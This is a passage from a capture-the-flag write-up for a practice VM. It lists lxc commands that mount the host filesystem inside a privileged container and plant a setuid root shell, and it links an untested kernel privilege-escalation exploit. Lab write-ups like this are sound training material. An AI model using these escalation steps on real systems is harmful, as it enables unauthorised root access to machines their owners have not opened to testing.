 As you can see that I used a existing script to do all the work. But [@4ndr34z](https://twitter.com/4ndr34z) did all that manually. Following are the commands that you need to run to be able to do the same thing I did with script:


* lxc init
* lxc launch ubuntu:18.04
* lxc list
* lxc stop workable-drake
* lxc image list
* lxc init 368bb7174b67 test -c security.privileged=true
* lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
* lxc start test
* lxc exec test bash

After that you can run the following set of commands:

* cd ../mnt
* cd root
* cd home
* cd jigsaw
* cp /mnt/root/bin/sh shell
* chmod 4775 shell

Thanks to [@4ndr34z](https://twitter.com/4ndr34z) for pointing out that `lxc` is installed on the system.

## Untested Privelege escalation

There is supposed to be another privilege escalation method. I didn't tested this because by this point I had already deleted the VM. But if you are curious then you can try it out.

This is a kernel exploit which came out recently so chances are it may work.

The link to the exploit - [Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation](https://www.exploit-db.com/exploits/47163)

***

I know this is the crazy writeup with lot of missing links but technically I completed the machine in a totally unintended way but I guess that is why this machine was really a fun to do.

Thanks to [@zayotic](https://twitter.com/zayotic) for this insane machine and thanks to [@4ndr34z](https://twitter.com/4ndr34z) for showing me the right path and letting me use his screenshot for the [Mod copy with metasploit](#mod-copy-with-metasploit) section.

If you find other ways to do this machine please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
